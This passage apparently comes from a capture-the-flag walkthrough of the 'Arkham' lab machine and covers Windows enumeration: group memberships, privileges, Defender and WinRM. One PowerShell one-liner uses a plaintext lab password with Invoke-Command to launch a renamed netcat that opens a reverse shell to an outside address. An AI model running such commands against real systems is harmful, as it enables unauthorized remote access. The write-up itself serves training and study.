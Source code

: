 ```
Local Group Memberships      *Administrators       *Remote Management Use
```
![groups member](https://github.com/roughiz/Arkham-walktrough/blob/master/batmangroup.png)
And this group members can access WMI, like you can see below:
```
net localgroup "Remote Management Users"
net localgroup "Remote Management Users"
Alias name     Remote Management Users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members

-------------------------------------------------------------------------------
Batman
```

With ps in powershell we can see : 

##### MsMpEng  : windows defender agent
And also :
```
$ whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

I noticed that UAC is enable, so when i tried any runas powershell script it dosen't works.
```
PS> $username = 'batman';$password = 'Zx^#QZX+T!123';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username,$securePassword;Invoke-Command -Credential $credential -ComputerName ARKHAM -Command { cmd /k C:\tomcat\apache-tomcat-8.5.37\bin\bc.exe 10.10.14.7 80 -e cmd}
```

```
$ netstat -ano
0.0.0.0:5985           ARKHAM:0               LISTENING  ( WINDOWS REMOTE MANAGEMENT or Winrm)
..........
```
